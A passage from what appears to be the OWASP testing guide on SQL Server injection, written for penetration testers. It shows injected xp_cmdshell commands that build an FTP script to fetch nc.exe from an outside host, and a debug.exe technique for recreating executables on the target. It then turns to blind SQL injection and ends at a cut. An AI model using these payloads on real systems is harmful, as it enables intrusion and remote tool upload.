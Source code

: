 ```sql
exec master..xp_cmdshell 'echo open ftp.tester.org > ftpscript.txt';--
exec master..xp_cmdshell 'echo USER >> ftpscript.txt';--
exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--
```

At this point, `nc.exe` will be uploaded and available.

If FTP is not allowed by the firewall, we have a workaround that exploits the Windows debugger, `debug.exe`, that is installed by default in all Windows machines. `Debug.exe` is scriptable and is able to create an executable by executing an appropriate script file. What we need to do is to convert the executable into a debug script (which is a 100% ASCII file), upload it line by line and finally call `debug.exe` on it. There are several tools that create such debug files (e.g.: `makescr.exe` by Ollie Whitehouse and `dbgtool.exe` by `toolcrypt.org`). The queries to inject will therefore be the following:

```sql
exec master..xp_cmdshell 'echo [debug script line #1 of n] > debugscript.txt';--
exec master..xp_cmdshell 'echo [debug script line #2 of n] >> debugscript.txt';--
....
exec master..xp_cmdshell 'echo [debug script line #n of n] >> debugscript.txt';--
exec master..xp_cmdshell 'debug.exe < debugscript.txt';--
```

At this point, our executable is available on the target machine, ready to be executed. There are tools that automate this process, most notably `Bobcat`, which runs on Windows, and `Sqlninja`, which runs on Unix (See the tools at the bottom of this page).

### Obtain Information When It Is Not Displayed (Out of Band)

Not all is lost when the web application does not return any information --such as descriptive error messages (cf. [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)). For example, it might happen that one has access to the source code (e.g., because the web application is based on an open source software). Then, the pen tester can exploit all the SQL injection vulnerabilities discovered offline in the web application. Although an IPS might stop some of these attacks, the best way would be to proceed as follows: develop and test the attacks in a testbed created for that purpose, and then execute these attacks against the web application being tested.

Other options for out of band attacks are described in [Sample 4 above](#example-4-yet-another-useful-get-example).

### Blind SQL Injection Attacks

#### Trial and Error

Alternatively, one may play lucky. That is the attacker may assume that there is a blind or out-of-band SQL injection vulnerability in a the web application. He will then select an attack vector (e.g., a web entry), [use fuzz vectors](../../6-Appendix/C-Fuzz_Vectors.md) against this channel and watch the response. For example, if the web application is looking for a book using a query
